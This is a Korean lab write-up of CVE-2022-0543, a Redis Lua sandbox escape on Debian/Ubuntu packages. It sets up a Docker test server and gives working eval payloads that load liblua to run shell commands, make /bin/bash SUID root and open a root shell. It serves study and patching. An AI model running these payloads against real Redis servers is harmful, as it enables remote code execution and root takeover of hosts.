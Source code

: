 # CVE-2022-0543

**Contributors**

-   [박연준(@yeo0n)](https://github.com/yeo0n)

<br/>

### 요약
-   Debian/Ubuntu의 패키징 문제로 인해 임의의 Lua 스크립트를 실행할 수 있는 원격 공격자가 Lua 샌드박스를 탈출하여 호스트에서 임의의 코드를 실행할 수 있습니다.
>   https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543
>   https://ine.com/blog/cve-20220543-lua-sandbox-escape-in-redis
>   https://www.linode.com/ko/blog/security/linode-security-digest-cassandra-redis-snap-confine/
>   https://nvd.nist.gov/vuln/detail/CVE-2022-0543

<br/>

### Redis란?

-   Redis는 Key, Value 구조의 비정형 데이터를 저장하고 관리하기 위한 오픈 소스 기반의 비관계형 데이터 베이스 관리 시스템 (DBMS)입니다.
-   데이터베이스, 캐시, 메세지 브로커로 사용되며 인메모리 데이터 구조를 가진 저장소입니다.

<br/>

### CVE-2022-0543 소개

-   2022년 2월 Redis의 심각한 취약점이 보고되었습니다. Redis는 패키징 문제로 인해 (Debian 관련) Lua 샌드박스 이스케이프가 발생하기 쉽고 이로 인해 원격 코드가 실행될 수 있는 것으로 나타났습니다.
-   주목해야 할 중요한 점은 이 취약점은 Debian 및 Debian 파생 Linux 배포만에만 적용된다는 것입니다. 업스트림 Redis는 영향을 받지 않습니다.
-   Reginaldo Silva가 Debian/Ubuntu의 패키징 문제로 인해 임의의 Lua 스크립트를 실행할 수 있는 원격 공격자가 Lua 샌드박스를 이스케이프하여 호스트에서 임의의 코드를 실행할 수 있음을 발견했습니다.
-   근본적인 원인은 Lua 라이브러리가 Debian 동적 라이브러리로 제공됩니다. "패키지"변수가 자동으로 채워지므로 임의의 Lua 기능에 대한 액세스가 허용됩니다. 예를 들어 이 기능은 "os"모듈의 "execute" 함수로 확장되면 임의의 Lua 코드를 실행할 수 있는 공격자가 임의의 셸 명령을 실행할 수 있습니다.

<br/>

### PoC 코드

```
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /root/redis_poc"); return 0' 0
```

<br/>

### 환경 구성 및 실행

-   터미널 창을 연 후, 다음 명령을 실행하여 Redis 서버 5.0.7 테스트 환경을 실행합니다.
```
docker compose up -d
```

-   서버가 시작된 후 다음 명령어를 통해 자격 증명 없이 이 서버에 연결할 수 있습니다. Redis 서버의 기본 설치에는 비밀번호가 없는 기본 사용자가 함께 제공됩니다. `redis-cli`
```
redis-cli -h your-ip
```

-   exit 명령어로 연결을 끊은 후, Docker로 연 redis 서버에서 다음 명령어로 실행 중인 프로세스를 식별합니다. (기본 포트인 6379에서 수신 대기중이며, Root로 실행되고 있음을 확인)
```
ps aux
```

-   Redis 서버에 다시 연결합니다.
```
redis-cli
```
![Alt text](/CVE-2022-0543/1.png)

-   PoC는 공유 Lua 라이브러리를 참조하기 때문에 사용 가능한 공유 Lua 라이브러리를 확인합니다.
```
ls -al /usr/lib/x86_64-linux-gnu/liblua*
```
![Alt text](/CVE-2022-0543/2.png)

-   redis-cli로 연결한 후 다음 PoC 코드를 입력합니다. (주의할 점: touch 뒤에 있는 경로를 pwd로 확인하여 확인하기 쉽게 변경)
```
redis cli
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /root/redis_poc"); return 0' 0
```

-   이제 redis-cli를 종료하고 redis_poc 파일을 확인합니다.
```
exit
ls -al
```
![Alt text](/CVE-2022-0543/3.png)

-   redis-cli에 연결하고 다음 `id`의 os 명령을 실행하는 페이로드를 입력합니다.
```
redis-cli
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![Alt text](/CVE-2022-0543/4.png)

-   다음으로 루트 셸을 얻기 위해 Lua 샌드박스 이스케이프 익스플로잇을 활용하여 `bash`를 `SUID` 루트 바이너리로 만듭니다.
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -al /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("chmod +s /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -al /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![Alt text](/CVE-2022-0543/5.png)

-   redis-cli를 종료하고 루트 셸을 얻기 위해 루트 사용자로 로그인합니다.
```
exit
/bin/bash -p
id
```
![Alt text](/CVE-2022-0543/6.png)

<br/>

### 정리

-   이 취약점은 Redis가 데비안 계열의 우분투 패키징 문제로 Lua 샌드박스를 이스케이프하여 호스트에서 임의의 코드를 실행할 수 있었습니다. 따라서 안전한 redis 서버를 운영하기 위해서 주기적으로 redis 버전을 확인하고 업데이트 하는 것이 필요합니다.